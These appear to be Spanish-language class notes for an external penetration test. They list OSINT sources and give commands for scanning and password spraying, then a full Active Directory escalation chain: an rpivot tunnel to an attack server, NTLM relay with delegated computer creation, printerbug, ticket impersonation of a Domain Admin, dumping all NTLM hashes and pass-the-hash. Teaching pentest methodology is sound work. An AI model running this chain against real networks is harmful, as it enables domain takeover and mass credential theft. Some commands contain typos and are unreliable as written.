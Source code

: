 ### **Trabajo de campo - External Penetration test**
* OSINT
  * Búsqueda de información corporativa, mails, usuarios, passwords leaks, etc
    * Hunter IO (https://hunter.io)
    * Intelx (https://intelx.io)
    * Linkedint (https://github.com/vysecurity/LinkedInt)
    * Página corporativa
* NMAP Scan
  * Escanear la red de acuerdo a la información brindada por el cliente
    * ` nmap –Pn –n –sS --top-ports 1000 192.168.0.1/24 –oA /home/mmevied/nmap_result.txt `
* Password Spay
  * Metasploit (`use auxiliary/scanner/http/owa_login`)
  * Nmap (`nmap –d -p 636 –Pn –script ldap-brute –script-args userdb=users.txt,passdb=passwords.txt <Server IP>`)
* Application RCE
![img6](imgs/clase9/img6.png)
* Privilege escalation
  * Buscar nombres de los Domain Controllers (`nslookup server.com`)
  * Buscar nombre de los Domain Admin (`net group "Domain Admins“ /domain`)
  * Levantar un tunel para conectarse a la computadora comprometida
    * Se puede usar rpivot de manera cliente servidor y proxychains para ejecutar los commandos (https://github.com/klsecservices/rpivot)
    * Server de ataque: `python server.py --server-port 9999 –-server-ip 0.0.0.0 –proxy-ip 127.0.0.1`
    * Victima: `client.exe --server-ip <IP del server de ataque> --server-port 9999`
  * Crear una nueva computadora en el dominio con la opción “Delegate access”
    * `Proxychains python ntlmrelayx.py ldaps://<IP Domain Controller> --remove/mic –delegate-access –add-computer “NewPC” –smb2support`
  * Ejecutar printerbug
    * `proxychains python printerbug.py <domain>/<user>@<Domain controller> <Server de ataque>`
  * Solicitar Silver ticket
    * `Proxychains python getST.py –spn host/<Domain Controller> ‘<Domain>/<NewPC>:<NewPCPassword>’ --impersonate <Domain Admin account> -dc-ip <Domain Controller>`
  * Exportar hashes de todos los usuarios
    * `export KRB5CCNAME=<Domain Admin Account>.ccache`
    * `Proxychains Python secretdump.py –no-pass <Domain Controller> -just-dc-ntlm –dc-ip <Domain Controller IP>`
  * Pass the hash
    * `Proxychains ./wmiexec.py <Domain>/<Username>@<Domain Controller IP> -hashes <Domain Admin Hash>`